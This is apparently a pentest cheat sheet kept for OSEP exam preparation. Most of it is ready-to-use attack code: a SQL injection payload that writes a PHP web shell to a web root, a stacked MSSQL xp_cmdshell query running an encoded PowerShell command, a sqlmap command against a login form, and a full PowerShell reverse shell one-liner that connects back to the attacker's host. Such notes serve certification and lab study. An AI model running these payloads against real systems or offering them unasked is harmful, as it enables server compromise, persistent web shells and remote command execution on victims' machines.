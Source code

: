 ## SQLi

Enumerate no. of columns for `UNION`-based payload:
```sql
' ORDER BY <Column no. to test>-- //
```

Inject webshell into PHP site via `UNION`:
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Example stacked query that worked against a machine:
```sql
'; EXECUTE xp_cmdshell 'powershell -enc JABjAGwAaQBl...AKAApAA==';--
```

For examples of the above and more check out PayloadAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md

### SQLMap

In OSEP SQLMap is fair game. The methods above still work and may still be handy for probing to acquire the appropriate parameters for SQLMap, but in the end SQLMap is the tool we want:

```bash
sqlmap -u "http://192.168.x.y/loginform.asp?uname=test&psw=asdf" -p uname,psw
```


powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<your_lhost>',<your_lport>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = '$ ' + $sendback;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"